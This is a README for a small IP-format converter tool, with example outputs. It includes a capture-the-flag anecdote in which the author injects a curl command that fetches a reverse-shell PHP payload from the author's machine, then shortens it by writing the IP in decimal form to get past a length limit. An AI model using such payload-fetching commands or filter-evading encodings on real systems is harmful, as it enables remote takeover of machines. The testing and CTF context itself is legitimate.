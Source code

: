 # IPConverter
Convert an IP to additional formats


One of the CTFs I did a very long time ago required the target machine to reach out and grab a reverse shell.  My IP address was something similar to 192.168.109.204 and the code I provided to the vulnerable application was something similar to the following:

`curl http://192.168.109.204/ReverseShell.php`.


After numerous errors, and seeing other people in the competition getting callbacks from similar curl statements (they had shorter IP addresses like 192.168.1.5), I determined that my string was too long.  `curl http://192.168.109.204/a` also didn't work, nor did `curl 192.168.109.204/a`.
However, `curl 3232263628/a` did work, I got my reverse shell, and I was able to complete the CTF.



This is a simple IPConverter, in both Python and C# format, to convert your IP address into several different formats for testing.  Some applications will not accept these different formats, so verify before use.

## Example Usage

`python3 IPConverter.py 192.168.42.42`

```
original_input       => 192.168.42.42
32_bit_integer       => 3232246314
dotted_decimal       => 192.168.42.42
decimal             => 3232246314
hex                 => 0xc0a82a2a
octal               => 0o14052112452
partial_1           => 3232246314
partial_2           => 192.11020842
partial_3           => 192.168.10794
partial_4           => 192.168.42.42
```



`IPConverter.exe 192.168.42.42`

```
original_input       => 192.168.42.42
32_bit_integer       => 3232246314
dotted_decimal       => 192.168.42.42
decimal             => 3232246314
hex                 => 0xc0a82a2a
octal               => 0o14052112452
partial_1           => 3232246314
partial_2           => 192.11020842
partial_3           => 192.168.10794
partial_4           => 192.168.42.42
```
